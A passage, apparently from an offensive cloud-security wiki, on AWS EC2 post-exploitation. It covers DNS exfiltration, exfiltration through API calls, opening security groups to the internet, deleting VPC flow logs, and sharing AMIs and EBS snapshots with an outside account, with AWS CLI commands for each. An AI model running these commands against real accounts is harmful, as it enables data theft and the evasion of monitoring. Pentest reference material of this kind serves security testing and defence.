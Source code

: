 Even if you lock down an EC2 so no traffic can get out, it can still **exfil via DNS**.

* **VPC Flow Logs will not record this**.
* You have no access to AWS DNS logs.
*   Disable this by setting "enableDnsSupport" to false with:

    `aws ec2 modify-vpc-attribute --no-enable-dns-support --vpc-id <vpc-id>`

#### Exfiltration via API calls

An attacker could call API endpoints of an account controlled by him. Cloudtrail will log this calls and the attacker will be able to see the exfiltrate data in the Cloudtrail logs.

### Open Security Group

You could get further access to network services by opening ports like this:

{% code overflow="wrap" %}
```bash
aws ec2 authorize-security-group-ingress --group-id <sg-id> --protocol tcp --port 80 --cidr 0.0.0.0/0
# Or you could just open it to more specific ips or maybe th einternal network if you have already compromised an EC2 in the VPC
```
{% endcode %}

### Privesc to ECS

It's possible to run an EC2 instance an register it to be used to run ECS instances and then steal the ECS instances data.

For [**more information check this**](../../../aws-security/aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs).

### Remove VPC flow logs

```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```

### Share AMI

{% code overflow="wrap" %}
```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### Share EBS Snapshot

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}
